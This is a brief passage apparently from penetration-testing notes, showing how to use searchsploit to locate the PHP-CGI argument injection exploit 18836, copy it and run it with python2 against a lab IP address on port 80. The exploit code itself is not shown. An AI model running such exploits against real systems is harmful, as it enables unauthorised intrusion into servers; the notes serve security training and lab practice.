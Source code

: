 <figure><img src="../../../../.gitbook/assets/image (278).png" alt=""><figcaption></figcaption></figure>

**Manual/Script Exploitation**

* Find an exploit

```bash
searchsploit php cgi
	PHP < 5.3.12 / < 5.4.2 - CGI Argument Injection | php/remote/18836.py
searchsploit -m 18836
python2 18836.py 10.0.24.140 80
# It executes
```
